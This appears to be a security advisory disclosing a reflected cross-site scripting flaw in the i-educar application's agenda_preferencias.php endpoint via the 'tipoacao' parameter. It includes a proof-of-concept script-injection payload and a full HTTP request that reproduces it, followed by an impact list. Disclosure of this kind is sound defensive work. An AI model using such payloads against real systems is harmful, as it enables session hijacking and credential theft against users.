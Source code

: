 # Cross-Site Scripting (XSS) Reflected endpoint `agenda_preferencias.php` parameter `tipoacao`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `agenda_preferencias.php` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao` parameter. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `GET /agenda_preferencias.php`  
**Parameter:** `tipoacao`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`"><script>alert('XSS-PoC')</script>`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [PUT NEW COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar"><script>alert('XSS-PoC')</script>&cod_agenda=2&envia_alerta=0&agenda_display=2
```

<img width="840" height="583" alt="Pasted image 20250816233021" src="https://github.com/user-attachments/assets/b312f674-be8a-4f2d-8370-375b0a3f6708" />


The result:
<img width="736" height="565" alt="Pasted image 20250816233448" src="https://github.com/user-attachments/assets/0c46fe97-a273-4c6f-9840-39f3e2babd73" />



---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
